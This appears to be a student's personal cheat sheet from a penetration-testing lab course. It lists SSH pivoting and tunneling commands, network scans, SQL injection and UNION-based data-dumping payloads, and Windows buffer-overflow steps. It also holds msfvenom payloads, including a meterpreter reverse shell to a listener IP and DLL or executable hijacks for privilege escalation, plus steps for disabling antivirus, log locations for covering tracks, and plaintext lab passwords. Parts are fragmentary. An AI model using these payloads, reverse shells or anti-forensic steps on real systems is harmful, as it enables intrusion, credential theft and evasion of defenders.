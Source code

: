 KEPE-006-M
jTlU99dknad4D95

Tunnels
exit
ssh -MS /tmp/gray student@10.50.46.234
ssh -S /tmp/gray gray -O forward -D9050
ssh -S /tmp/gray 10 -O forward -L 1700:192.168.28.27:22

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.129,112,113,114 
-p-[all ports] -p[22,23]


SQL Injection
admin' or 1='1
SELECT carid, name, (SELECT SUM(cost) FROM Tires WHERE name = "goodyear") FROM car WHERE name = "ford";
<URL>/uniondemo.php?Selection=2 OR 1=1
<URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3  <!-- Validate NUMBER of columns required -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM Tires <!-- Test pulling VALID data -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM car <!-- Test pulling data from ALTERNATE table -->

ssh www-data@0.0.0.0 -p 1460 -L 1400:192.168.150.253:3201 -NT



Windows Buffer Overflow
Break program with tcpcon.py

Open Immunity debuger CPU window and exe as administrator
Attach file in cpu window
Generate Buffer overflow pattern https://wiremask.eu/tools/buffer-overflow-pattern-generator/
Copy EIP to find where the error happens
add DEADCODE to buff in script
mona modules -o
imona jmp -r esp -m "<file>"
find jmp esp instruction memory address
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.46.234 lport=4444 -b
msfconsole -q
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
show options, set lhost, set lport
shut off real time protection in windows-> security -> vires and threat -> mange settings -> real-time protection





Privilege Escalation,P Persistence and Covering your Tracks
sudo -l (list user permissions)
/var/log/ auth.log/secure (login/authen) lastlog(successful login time) btmp(bad login) sulog(SU command) utmp(W command) wtmp(permanent record on user)

find /var/log -type f -mmin -10 2> /dev/null

msfvenom -p linux/x86/exec CMD="sudo cat /.secret/.verysecret.pdb" -b '\x00' -f python




Windows Exploitation
Services
check path
file explorer

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktop\whoami.txt' -f exe > 7z.exe
scp
task scheduler
find task run by system try and try and edit/create files within the directory
view hidden files

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktio\dll.dll' -f dll > name of dll its calling for

ssh -S /tmp/gray pivot -O forward -L 1700:192.168.28.105:2222
ssh comrade@0.0.0.0 -p 1700 -L 40000:192.168.28.27:22
ssh zeus@0.0.0.0 -p 40000 -L 1900:192.168.28.9:3389
ghjcnbnenrf
xfreerdp /u:comrade /v:0.0.0.0:1900 /p:StudentMidwayPassword /size:1920x1000 +clipboard




Pre-Test
5 boxes
ignore .190
Lin-Ops -> 10.50.46.125
2 Root/Admin 
1)10.50.46.125 port 22,80
nmap -v -sT -Pn -T4 -sV 192.168.28.129,112,113,114 
user2 [1] => RntyrfVfNER78 [pass]
 user3 [1] => Obo4GURRnccyrf [pass]
Lee_Roth [1] => anotherpassword4THEages
user2 = EaglesIsARE78
cat /etc/hosts
ip n
arp -a
--scripts http-enum
2)192.168.28.181 WebApp 80
3)
4)
UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
http://0.0.0.0:1200/pick.php?product=7 20UNION 20SELECT 20name,user_id,username 20FROM 20siteusers.users


